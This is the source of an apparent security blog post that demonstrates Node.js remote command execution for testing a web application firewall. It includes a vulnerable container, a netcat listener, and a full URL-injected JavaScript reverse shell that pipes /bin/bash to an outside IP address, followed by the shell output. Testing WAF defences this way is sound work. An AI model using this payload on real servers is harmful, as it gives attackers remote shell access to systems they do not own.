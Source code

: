```yaml
---
layout: post
date:   2020-08-09 17:54:35 -0400
title:  "Web Server Compromise - Node.js Remote Command Execution"
categories: initialaccess
tags: waf
---
```

<p>
Remotely exploiting servers in DMZ's seems so unecessary today with all of the credential theft and client side exploitation, but it is still a critical link in the attack chain. Cloud initiatives are allowing administrators to start up servers all over the place, and most of the time they do not have the same protections in the cloud they typically would in the DMZ. This attack could also be applied for lateral movement if the vulnerable web application is only accessible internally.
</p>

<p>
As a user you can be on either side of the DUT (Device Under Testing) for this. We will be exploiting the web server by requesting a URL with the command execution in it. For this user case that command will ask the web server to connect to our control infrastructure.
</p>

<p>
This particular use case can be used to demonstrate lateral movement too. This host could be the initial system compromised from the Internet and then pivot to another host, or it could be leveraged to pivot on an internal network.
</p>


<h3>Step 1 - Create a Sub-domain for the Application</h3>

<p>
This is important because we will proxy the traffic through the WAF.
</p>

<img src="/images/node-dns.png">

<h3>Step 2 - Deploy the Node.js Container</h3>

<p>
Run the container somewhere you will be able to access the server by it's DNS name. This particular one is running in GCP.
</p>

<p>
Run the pre-built container for this with the following command, changing the -h to the domain you setup in Step 1.
</p>

<code>docker run -h node.ninjastars.cf -p 8080:8080 -d freshdemo/node-simple-rce</code>


<h3>Step 2 - Setup Control Channel</h3>

<p>
From a terminal behind your device under testing run netcat as a listener. Make sure the port you specify will be accessible from the webserver. This is running on a separate host in GCP.
</p>

<code>
  nc -l 80
</code>
<br>


<h3>Step 3 - Exploit the Server</h3>

<p>
The following demonstrates how to connect to the vulnerable server (localhost:8080), and run the remote command execution that communicates with the control server in the previous step (13.88.250.188:80).
</p>

<code>
  http://node.ninjastars.cf:8080/q=var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"13.88.250.188",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
</code>
<br>
<br>

<p>
Now back at your control server you should be able to execute commands on the host.
</p>

<pre>
root@DockerHost:~# nc -l 80
pwd
/usr/src/app
ls
app.js
node_modules
package-lock.json
package.json
</pre>


<h3>Step 4 - View the Results</h3>


<p>
The WAF was able to identify and prevent this exploit.
</p>
<br>
<img src="/images/node-waf.png">



